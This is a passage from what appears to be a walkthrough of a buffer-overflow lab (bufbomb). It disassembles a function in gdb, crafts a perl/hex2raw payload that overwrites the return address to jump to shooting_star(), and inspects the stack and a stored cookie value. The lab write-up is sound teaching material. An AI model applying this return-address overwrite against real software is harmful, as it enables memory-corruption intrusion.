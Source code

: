 **-Type < return > to continue, or q < return > to quit-**

We can see from the row **0x08048b7a <+3>** that register %edx is filled with the contents of stack which is located at %esp+0x20. Then, at row 0x08048b7e <+7> we can see that register %eax is filled with the contents of stack which is located at %esp+0x28. Then, what are the values contained within those 2 blocks of stack? We'll see them later.

Then we can see from row 0x08048b82 <+11> that the contents of register %eax is compared with the contents of block located at 0x804d10c. So, after register %eax is being filled with the stack's value located at %esp+0x28, its value is compared with the value of certain memory. The result of comparison must be same so that we can enter the next process. Then, what is the value contained at address 0x804d10c? To find it, we must run the program and break at procedure **shooting_star()**. We can break at that procedure by changing the return address of **ah_choo()** into 08048b77. Use this command:

> perl -e 'print "61 "x32, "62 "x20, "77 8b 04 08"' > hex0<br />
> ./hex2raw < hex0 > raw0<br />

And type this command:

> gdb bufbomb<br />
> (gdb) b shooting_star<br />
> Breakpoint 1 at 0x8048b77<br />
> (gdb) run -u eksperimen < raw0<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> Breakpoint 1, 0x08048b77 in shooting_star ()<br />

Now we can see the contents of memory address 0x804d10c by typing this command:

> (gdb) x/ 0x804d10c<br />
> 0x804d10c < cookie >:    496949284<br />
> (gdb) p/x 496949284<br />
> $1 = 0x1d9ed824<br />

We can use command **p/x** to convert a number into hexadecimal representation.

Evidently, the contents of that memory address is our cookie! This means if we want to proceed to the next Assembly code, the value of register %eax must be same with our cookie (0x1d9ed824). 

The problem is, how to change the value of register %eax into our cookie?

Let's see this assembly code.

Address | Operation | Elements in operation
--- | --- | ---
0x08048b7a <+3>:  |  mov  |  0x20(%esp), %edx
0x08048b7e <+7>:  |  mov  |  0x28(%esp), %eax

If we want to know the contents of register %edx and %eax, we do need to see the contents of the stack. Use this command (still using GDB):

> (gdb) ni<br />
> (gdb) x/20x $esp<br />

The contents of stack | | | | |
--- | --- | --- | --- | ---
0x5568366c <_reserved+1037932>:  | 0x61616161  | 0x62626262  | 0x62626262  | 0x62626262
0x5568367c <_reserved+1037948>:  | 0x62626262  | 0x62626262  | 0x08048b77  | 0x00000000
0x5568368c <_reserved+1037964>:  | 0xf7fba000  | 0x0000000f  | 0x08048dcd  | 0xf7fbaac0
0x5568369c <_reserved+1037980>:  | 0x0000000a  | 0x0000000f  | 0xf7e12700  | 0x55685ff0
